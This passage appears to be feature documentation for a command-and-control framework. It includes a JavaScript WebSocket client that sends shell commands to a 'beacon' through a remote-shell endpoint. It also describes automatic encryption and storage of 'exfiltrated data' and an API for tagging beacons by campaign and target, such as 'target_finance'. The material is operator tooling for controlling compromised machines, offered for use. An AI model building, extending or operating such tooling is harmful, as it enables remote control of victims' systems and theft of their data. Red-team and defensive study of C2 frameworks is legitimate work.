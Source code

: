 **Example Client:**
```javascript
const ws = new WebSocket('ws://localhost:8443/ws/shell/beacon123');

ws.onopen = () => {
    // Authenticate
    ws.send(JSON.stringify({api_key: 'YOUR_KEY'}));
    
    // Send command
    ws.send(JSON.stringify({command: 'dir C:\\'}));
};

ws.onmessage = (event) => {
    console.log('Response:', JSON.parse(event.data));
};
```

---

### 4. File Compression/Encryption 🔐

**Description:** Automatic encryption and compression of all exfiltrated data.

**Encryption:** Fernet (symmetric encryption)  
**Compression:** gzip

**Features:**
- Transparent encryption/decryption
- Automatic key generation
- Key persistence in `encryption_key.bin`
- Compress before encrypt for efficiency

**Storage:**
- All exfil data is stored encrypted in database
- Encryption key is auto-generated and saved
- Decryption available via API

**Key Management:**
```python
# Key is automatically managed
# Located at: ./encryption_key.bin
# Backup this file for data recovery!
```

---

### 5. Beacon Grouping/Tagging System 🏷️

**Description:** Organize beacons by campaigns, targets, or custom categories.

**API Endpoints:**

**Update Beacon Tags:**
```bash
POST /api/beacon/<beacon_id>/tags
Authorization: X-API-Key: YOUR_KEY

{
    "tags": "campaign1,target_finance,priority_high"
}
```
